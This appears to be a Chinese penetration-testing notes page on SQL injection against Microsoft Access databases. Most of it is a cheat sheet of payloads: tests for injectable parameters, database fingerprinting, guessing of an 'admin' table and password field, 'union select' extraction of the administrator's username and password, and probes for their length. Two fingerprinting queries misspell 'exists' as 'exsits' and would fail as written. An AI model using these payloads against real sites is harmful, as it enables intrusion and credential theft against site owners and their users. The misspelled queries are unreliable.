 ```yaml
---
title: Access数据库注入
date: 2018-10-26
tags: 渗透
categories: "渗透"
---
```


------

### 介绍
> 微软开发的小型数据库，全名：Microsoft Office Access

- 打开工具：
> 辐臣数据库浏览器，破障浏览器

------

<!-- more -->
### 判断注入

- ` ' `
- `and 1=1`
- `and 1=2`
- `or 1=2`
- `id=-xxx`

------

### 判断数据库类型

- `and exsits (select * from msysobjects)>0` （判断是否是access数据库，msysobjects是数据库中的一个表）
- `and exsits (select * from sysobjects)>0` （判断是否是SQLSever数据库）

------

### 判断数据库表

- `and exists (select * from admin)`

------

### 判断数据库表中的字段名

- `and exists (select admin.password from admin)`

------

### 判断字段长度

- ` order by 数字`
- 报错显示内容
> `and 1=2 union select 1,2,3,4,5,6,7,8,9 from admin`
- 猜解密码
> 在报错输出内容中找到报错位置，将字段名与其替换，就会显示字段内容。如：`and 1=2 union select 1,2,admin,4,5,6,password,8,9 from admin`

------

### 判断账户密码长度

- `and (select len(admin) from admin)=5`如果返回正常，则账户长度是为5
- `and (select len(password) from admin)=5`如果返回正常，则密码长度是为5